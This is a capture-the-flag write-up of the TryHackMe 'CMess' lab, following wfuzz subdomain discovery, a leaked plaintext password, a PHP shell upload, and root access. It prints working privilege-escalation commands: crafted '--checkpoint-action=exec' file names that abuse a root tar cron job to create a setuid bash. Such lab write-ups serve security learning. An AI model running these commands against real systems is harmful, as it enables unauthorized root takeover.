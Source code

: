 ### THM Cmess

Welcome back.  It's getting crunch time so I'm skipping the nmap inclusion here.  Basically we have port 80 and 22.  HTTP and SSH.  HTTP is the likely way in.  When we look at the website itself, there isn't much.  There's no where to create an account.  I was able to find a login but it requires a email.

The trick to this one, is the subdomain.  You need to update your hosts file (and I had to update my `/etc/nsswitch.conf` file).

```
(kali@kali)-$ wfuzz -c -f sub-fighter -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cmess.thm/
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                         
=====================================================================

000000003:   400        12 L     53 W       422 Ch      "# Copyright 2007 James Fisher"                                 
000000011:   400        12 L     53 W       422 Ch      "# Priority ordered case-sensitive list, where entries were foun
                                                        d"                                                              
000000010:   400        12 L     53 W       422 Ch      "#"                                                             
000000008:   400        12 L     53 W       422 Ch      "# or send a letter to Creative Commons, 171 Second Street,"    
000000013:   400        12 L     53 W       422 Ch      "#"                                                             
000000007:   400        12 L     53 W       422 Ch      "# license, visit http://creativecommons.org/licenses/by-sa/3.0/
                                                        "                                                               
000000001:   400        12 L     53 W       422 Ch      "# directory-list-2.3-medium.txt"                               
000000006:   400        12 L     53 W       422 Ch      "# Attribution-Share Alike 3.0 License. To view a copy of this" 
000000009:   400        12 L     53 W       422 Ch      "# Suite 300, San Francisco, California, 94105, USA."           
000000012:   400        12 L     53 W       422 Ch      "# on at least 2 different hosts"                               
000000005:   400        12 L     53 W       422 Ch      "# This work is licensed under the Creative Commons"            
000000016:   200        107 L    290 W      3886 Ch     "images"                                                        
000000020:   200        107 L    290 W      3883 Ch     "crack"                                                         
000000017:   200        107 L    290 W      3892 Ch     "download"                                                      
000000002:   400        12 L     53 W       422 Ch      "#"                                                             
000000004:   400        12 L     53 W       422 Ch      "#"                                                             
000000019:   200        107 L    290 W      3880 Ch     "news"                                                          
000000015:   200        107 L    290 W      3883 Ch     "index"                                                         
000000018:   200        107 L    290 W      3880 Ch     "2006"                                                          
000000014:   200        107 L    290 W      3868 Ch     "http://cmess.thm/"                                             
000000021:   200        107 L    290 W      3886 Ch     "serial"                                                        
000000023:   200        107 L    290 W      3880 Ch     "full"                                                          
000000027:   200        107 L    290 W      3886 Ch     "search"                                                        
000000069:   200        107 L    290 W      3895 Ch     "downloads"
```

That spit out a lot of stuff.  Let's filter some of that down, yea?

```
(kali@kali)-$ wfuzz -c -f sub-fighter -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm" --hw 290
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cmess.thm/
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                         
=====================================================================

000000012:   400        12 L     53 W       422 Ch      "# on at least 2 different hosts"                               
000000009:   400        12 L     53 W       422 Ch      "# Suite 300, San Francisco, California, 94105, USA."           
000000011:   400        12 L     53 W       422 Ch      "# Priority ordered case-sensitive list, where entries were foun
                                                        d"                                                              
000000010:   400        12 L     53 W       422 Ch      "#"                                                             
000000013:   400        12 L     53 W       422 Ch      "#"                                                             
000000001:   400        12 L     53 W       422 Ch      "# directory-list-2.3-medium.txt"                               
000000007:   400        12 L     53 W       422 Ch      "# license, visit http://creativecommons.org/licenses/by-sa/3.0/
                                                        "                                                               
000000006:   400        12 L     53 W       422 Ch      "# Attribution-Share Alike 3.0 License. To view a copy of this" 
000000003:   400        12 L     53 W       422 Ch      "# Copyright 2007 James Fisher"                                 
000000008:   400        12 L     53 W       422 Ch      "# or send a letter to Creative Commons, 171 Second Street,"    
000000005:   400        12 L     53 W       422 Ch      "# This work is licensed under the Creative Commons"            
000000004:   400        12 L     53 W       422 Ch      "#"                                                             
000000002:   400        12 L     53 W       422 Ch      "#"                                                             
000000834:   200        30 L     104 W      934 Ch      "dev"
```

So adding the `--hw 290` to the end cut out all the responses that were coming 404 on the site cause every response would get that.

I stopped it on dev cause that's the one we're interested in.  But when we go to the browser and try to go to that page, it doesn't work.  We have to add `dev.cmess.thm` in order for it to work.  So do that, and refresh the page.  And we have what looks to be a message or chat log where someone asks for the password to be reset and we have it.  In plain text.

Take that password and try ssh.  And bin....no?  Doesn't work.  But, in that chat log, we did get some email addresses.  There was a login page that asked for an email.  And we have a password that goes with that email.  Go to the /admin/ page and the email and password works there.

So now we have an admin portal.  We can look at posts, pages, etc.  We have the site admin, so we can do a lot here.  So much so that I broke the webpage and had to reload the box entirely lol.

So I was able to find a file upload and since I've already got a php shell page built, I just reused that one.  Started up my nc listener and now we're in as `www-data`.

Now that we've got our low level user, time to enumerate and elevate.

![Upload](/Images/THM4Cmess/pic1.png)

Don't forget to go to a writeable folder (here we went to `/tmp/`) so you can write the file to it.

Run our script and there are a couple things to see.  We ran LinEnum.sh this time but I think I would rather run LinPEAS.sh.  That seems to highlight things and points them out better.  But let's look at the output.

![.bak](/Images/THM4Cmess/pic2.png)

Here we appear to have a password backup file.  But there's also another finding.

![Crontab](/Images/THM4Cmess/pic3.png)

In the cron jobs, looks like we have a job that's running as root, in andre's folder.  We just need to get access to andre's profile.

Going back to what we found the first time, the bak file that's readable by everyone.  And what do we find?

![andre's password](/Images/THM4Cmess/pic4.png)

So we can take that and give that ssh thing a try again.

```
(kali@cd bakali)-$ ssh andre@10.10.2.194                                 
The authenticity of host '10.10.2.194 (10.10.2.194)' can't be established.
ED25519 key fingerprint is SHA256:hepiJY+DGs/ds1l4tweTdzOAbt+HxqpmNs3WyZFb4eQ.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:18: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.2.194' (ED25519) to the list of known hosts.
andre@10.10.2.194's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Feb 13 15:02:43 2020 from 10.0.0.20
andre@cmess:~$ 
```

Now that we have the user access, let's relook at that crontab.  

`*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *`

We've got steps for this but make sure that you do those steps into the folder that is being run from, here, `/home/andre/backup`.  And then go through the steps we had from the lesson.

```
andre@cmess:~/backup$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andre/backup/runme.sh
andre@cmess:~/backup$ chmod +x runme.sh
andre@cmess:~/backup$ touch /home/andre/backup/--checkpoint=1
andre@cmess:~/backup$ touch /home/andre/backup/--checkpoint-action=exec=sh\ runme.sh
andre@cmess:~/backup$ ls
```

Earlier notes had this 4th line code working with `exec=sh\runme.sh` as opposed to `exec=sh\ runme.sh`.  Both may work but may want to try both.

![Ding](/Images/THM4Cmess/pic5.png)

Give that a minute (or two actually since it did say it runs every 2 minutes).  And then `/tmp/bash -p` and we're in.  Good times.

So this was an interesting one.  Instead of hunting domains and directories, we `wfuzz` for some subdirectories.  The `/etc/hosts` file gave me some fits but got that working after updating a different file (`/etc/nsswitch.conf`).  I doubt that will be a thing outside of labs but maybe.  Something to keep in the back of my mind.

Thanks for coming along. :)

